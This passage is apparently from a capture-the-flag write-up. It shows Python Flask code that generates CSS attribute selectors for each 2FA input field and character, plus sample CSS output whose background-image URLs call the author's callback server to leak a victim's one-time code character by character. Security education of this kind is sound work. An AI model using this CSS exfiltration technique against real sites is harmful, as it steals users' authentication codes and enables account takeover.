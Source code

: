 Firstly, we build a stylesheet by adding a selector for every code input field, and for every possible character. You would notice that I also use a `session` within my callbacks - this is to ensure that responses from overlapping attempts won't ever get mixed up.
```python
@blueprint.route('/uni_2fa_style.css')
def uni_2fa_style_css():
    session = request.args.get('session', uuid4().hex[:5])

    def selector(pos, char):
        name = escape_css_selector(f'code_{pos + 1}')
        value = escape_css_selector(char)
        callback = url_for(".h1_2006_callback", session=session, pos=pos, char=char, _external=True, _scheme='https')
        return f'input[name="{name}"][value="{value}"]{{background-image: url({callback});}}'

    selectors = [selector(pos, char) for pos in range(NUM_CHARS) for char in ALLOWED_CHARS]

    css = '\n'.join(selectors + [original_css])

    return Response(css, mimetype='text/css')
```
You can see the resulting CSS generated by this code e.g. [here](https://py.whitehat-hacker.com/poc/ctf/uni_2fa_style.css):
```css
input[name="code_1"][value="0"]{background-image: url(https://py.whitehat-hacker.com/poc/ctf/h1-2006-callback/09278/0/0);}
input[name="code_1"][value="1"]{background-image: url(https://py.whitehat-hacker.com/poc/ctf/h1-2006-callback/09278/0/1);}
input[name="code_1"][value="2"]{background-image: url(https://py.whitehat-hacker.com/poc/ctf/h1-2006-callback/09278/0/2);}
input[name="code_1"][value="3"]{background-image: url(https://py.whitehat-hacker.com/poc/ctf/h1-2006-callback/09278/0/3);}
input[name="code_1"][value="4"]{background-image: url(https://py.whitehat-hacker.com/poc/ctf/h1-2006-callback/09278/0/4);}
...
```

What's worth noting is that certain characters have to be escaped within CSS selectors - this is what my `escape_css_selector` function is for. To build a proper escaping function that would cover all cases is actually no easy task. If you're into that sort of stuff, I highly recommend [CSS character escape sequences](https://mathiasbynens.be/notes/css-escapes) blog post by [Mathias Bynens](https://twitter.com/mathias), who has also made an [online tool] (https://mothereff.in/css-escapes) to do such escaping, with [source code [javascript]](https://github.com/mathiasbynens/mothereff.in/tree/master/css-escapes) available on GitHub. In our case we don't need to handle all these edge cases though, and in fact I've bluntly copy-pasted the escaping part from d0nutptr's [sic](https://github.com/d0nutptr/sic/blob/master/src/main.rs#L298-L330) tool.

We're using a dict of lists (keyed by session) to store the characters we receive at the right places in the list:
```python
# Store exfiltrated results in a dict where keys are sessions and values are 7-element lists
code_chars = defaultdict(lambda: [None] * NUM_CHARS)
```
